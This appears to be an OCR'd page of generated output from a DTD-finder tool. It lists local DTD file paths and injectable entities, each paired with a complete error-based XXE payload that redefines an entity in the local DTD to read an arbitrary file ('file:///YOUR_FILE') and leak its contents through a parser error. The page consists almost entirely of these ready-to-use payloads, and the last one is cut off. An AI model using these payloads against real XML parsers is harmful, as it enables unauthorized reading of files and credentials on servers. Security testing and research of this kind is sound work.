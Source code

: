 **Injectable entity:** `attlist.filepath`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/dblatex-config.dtd">

    <!ENTITY % attlist.filepath '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/dblatex-config.dtd`

**Injectable entity:** `attlist.mod_or_file`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/dblatex-config.dtd">

    <!ENTITY % attlist.mod_or_file '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

**Injectable entity:** `AttributeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % AttributeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```